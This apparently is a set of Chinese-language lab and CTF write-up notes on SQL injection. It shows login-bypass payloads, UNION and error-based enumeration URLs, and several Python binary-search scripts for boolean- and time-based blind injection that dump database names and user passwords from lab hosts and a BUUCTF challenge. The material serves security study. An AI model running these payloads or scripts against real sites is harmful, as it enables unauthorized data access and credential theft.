## SQL注入中的万能密码

登录抓包，把包发送到repeater模块



## UNION


```
http://10.3.4.67/union_sql.php?id=1 order by 1-- 
```


```
http://10.3.4.67/union_sql.php?id=1 order by 2-- 
```


```
http://10.3.4.67/union_sql.php?id=-1 union select group_concat(SCHEMA_NAME) from information_schema.schemata-- 
```


```
http://10.3.4.67/union_sql.php?id=-1 union select group_concat(TABLE_NAME) from information_schema.TABLES where table_schema = 'user_db'-- 
```


```
http://10.3.4.67/union_sql.php?id=-1 union select group_concat(COLUMN_NAME) from information_schema.columns where table_name = 'user_info'-- 
```


```
http://10.3.4.67/union_sql.php?id=-1 union select group_concat(username) from user_db.user_info -- 
```


```
http://10.3.4.67/union_sql.php?id=-1 union select group_concat(password) from user_db.user_info -- 
```


## 第二个万能密码登录



这个并不是flag但是说明有sql注入



--+不行 --空格不行 #不行 #的url编码%23可以




回显位是2和3，数据库是geek

注意如果使用2号位，需要这样构造payload：



而如果使用3号位，需要这样构造：







flag{8e2d2cca1e52-45fc-a30c-6c7ed8833050}

## 报错注入

updatexml(0x3a, concat(1,database()), 1)





接着查表：因为提示返回结果多于1行，所以加一个group_concat，注意位置



只输出32字符，flag在后面



使用substr()



## 布尔盲注——二分法

```py
import requests
url = 'http://10.3.4.95/bool_sql.php?id='
res = ""
sign = 0
for i in range(1, 100):
    low = 32
    high = 127
    middle = (low + high) // 2
    while high > low:
        payload = f"1' and ascii(substr((database()),{i},1))>{middle}%23"
        # print(payload)
        r = requests.get(url + payload)
        if 'success' in r.text:
            low = middle + 1
        else:
            high = middle
        middle = (low + high) // 2
    res += chr(middle)
    print(res)
    if high <= 32:
        break
```

user_db 

```py
import requests
url = 'http://10.3.4.95/bool_sql.php?id='
res = ""
sign = 0
for i in range(1, 100):
    low = 32
    high = 127
    middle = (low + high) // 2
    while high > low:
        payload = f"1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'user_db'),{i},1))>{middle}%23"
        # print(payload)
        r = requests.get(url + payload)
        if 'success' in r.text:
            low = middle + 1
        else:
            high = middle
        middle = (low + high) // 2
    res += chr(middle)
    print(res)
    if high <= 32:
        break
```

user_info

```py
import requests
url = 'http://10.3.4.95/bool_sql.php?id='
res = ""
sign = 0
for i in range(1, 100):
    low = 32
    high = 127
    middle = (low + high) // 2
    while high > low:
        payload = f"1' and ascii(substr((select group_concat(column_name) from information_schema.columns where table_name = 'user_info'),{i},1))>{middle}%23"
        # print(payload)
        r = requests.get(url + payload)
        if 'success' in r.text:
            low = middle + 1
        else:
            high = middle
        middle = (low + high) // 2
    res += chr(middle)
    print(res)
    if high <= 32:
        break
```

group_concat是一个聚合函数，作用于列，不要放错地方

id,username,password 

```py
import requests
url = 'http://10.3.4.95/bool_sql.php?id='
res = ""
sign = 0
for i in range(1, 100):
    low = 32
    high = 127
    middle = (low + high) // 2
    while high > low:
        payload = f"1' and ascii(substr((select group_concat(password) from user_db.user_info),{i},1))>{middle}%23"
        # print(payload)
        r = requests.get(url + payload)
        if 'success' in r.text:
            low = middle + 1
        else:
            high = middle
        middle = (low + high) // 2
    res += chr(middle)
    print(res)
    if high <= 32:
        break
```

admin123,password,zhangsanpass,lisipass

## 时间盲注——二分法

```py
import requests
import time

url = 'http://10.3.4.96/sleep_sql.php?'
flag = ''

for i in range(1, 20):
    high = 127
    low = 32
    middle = (high + low) // 2
    while(high > low):
        payload = url + f"id=1' and if(ascii(substr(database(),{i},1))>{middle},sleep(1),0)%23"
        t1 = time.time()
        r = requests.get(payload)
        t2 = time.time()

        if (t2 - t1) > 1:  # 对比响应时间
            low = middle + 1
        else:
            high = middle
        middle = (high + low) // 2

    flag += chr(middle)
    print(flag)
    if (high <= 32):
        break
```



## 练习：BUUCTF finalSQL

这道题过滤了很多 字典：sql_bypass_fuzz.txt





id=0和id=1时页面结果不同

database()的第一个字符的ascii肯定大于1    0^1=1 

由于空格被过滤了 所以这样不行



用括号代替 改成这样：



```py
import requests
url = 'http://85ef4fe3-7793-44d7-a564-737280a43420.node5.buuoj.cn:81/search.php'
res = ""
sign = 0
# ?id=0^(ASCII(SUBSTR((SELECT(DATABASE())),1,1))>1)--+
for i in range(1, 100):
    low = 32
    high = 127
    middle = (low + high) // 2
    while high > low:
        payload = f"?id=0^(ASCII(SUBSTR((SELECT(DATABASE())),{i},1))>{middle})--+"
        # print(payload)
        r = requests.get(url + payload)
        if 'others' in r.text: # 注意改这里
            low = middle + 1
        else:
            high = middle
        middle = (low + high) // 2
    res += chr(middle)
    print(res)
    if high <= 32:
        break
```

得到数据库：geek

```py
import requests
url = 'http://85ef4fe3-7793-44d7-a564-737280a43420.node5.buuoj.cn:81/search.php'
res = ""
sign = 0
# ?id=0^(ASCII(SUBSTR((SELECT(DATABASE())),1,1))>1)--+
for i in range(1, 100):
    low = 32
    high = 127
    middle = (low + high) // 2
    while high > low:
        payload = f"?id=0^(ASCII(SUBSTR((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),{i},1))>{middle})--+"
        # print(payload)
        r = requests.get(url + payload)
        if 'others' in r.text: # 注意改这里
            low = middle + 1
        else:
            high = middle
        middle = (low + high) // 2
    res += chr(middle)
    print(res)
    if high <= 32:
        break

```

得到表：F1naI1y,Flaaaaag 

```py
import requests
url = 'http://85ef4fe3-7793-44d7-a564-737280a43420.node5.buuoj.cn:81/search.php'
res = ""
sign = 0
# ?id=0^(ASCII(SUBSTR((SELECT(DATABASE())),1,1))>1)--+
for i in range(1, 100):
    low = 32
    high = 127
    middle = (low + high) // 2
    while high > low:
        payload = f"?id=0^(ASCII(SUBSTR((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),{i},1))>{middle})--+"
        # print(payload)
        r = requests.get(url + payload)
        if 'others' in r.text: # 注意改这里
            low = middle + 1
        else:
            high = middle
        middle = (low + high) // 2
    res += chr(middle)
    print(res)
    if high <= 32:
        break
```



```py
import requests
url = 'http://36cb2489-ce57-4db4-a3cc-32c64a13f82f.node5.buuoj.cn:81/search.php'
res = ""
sign = 0
# ?id=0^(ASCII(SUBSTR((SELECT(DATABASE())),1,1))>1)--+
for i in range(101, 250): # flag靠后
    low = 32
    high = 127
    middle = (low + high) // 2
    while high > low:
        payload = f"?id=0^(ASCII(SUBSTR((select(group_concat(password))from(geek.F1naI1y)),{i},1))>{middle})--+"
        # print(payload)
        r = requests.get(url + payload)
        if 'others' in r.text: # 注意改这里
            low = middle + 1
        else:
            high = middle
        middle = (low + high) // 2
    res += chr(middle)
    print(res)
    if high <= 32:
        break
```

